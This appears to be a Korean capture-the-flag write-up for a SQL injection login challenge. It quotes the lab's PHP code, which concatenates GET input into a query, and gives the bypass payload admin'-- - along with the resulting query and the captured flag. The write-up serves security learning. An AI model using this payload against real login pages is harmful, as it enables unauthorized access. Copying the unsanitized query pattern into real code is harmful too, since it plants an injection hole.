

# 03. SQLi

## 문제 설명
`userid`, `userpw`를 GET으로 받아 로그인하는 페이지. 소스가 공개되어 있으며,
쿼리 결과의 `userid`가 `admin`이면 flag를 출력한다.

```php
$q = "SELECT userid FROM sqli1_table WHERE userid='$_GET[userid]' AND userpw='$_GET[userpw]'";
...
if ($uid === 'admin') { echo getenv('FLAG_SQLI_1'); }
```

## 분석
사용자 입력이 필터링 없이 쿼리에 직접 삽입되어 SQL Injection이 가능하다.
`userid`에 주입하여 `userpw` 조건을 주석 처리하면 `admin` 행을 그대로 조회할 수 있다.

## 익스플로잇

### 페이로드 (`userid` 입력란)
```
admin'-- -
```
`userpw`는 아무 값이나 입력한다. 주입 결과 쿼리는 다음과 같이 되어 비밀번호 검사가 무력화된다.
```sql
SELECT userid FROM sqli1_table WHERE userid='admin'-- -' AND userpw='x'
```


## 플래그
```
flag{121128d0833fafb1b3d4}
```
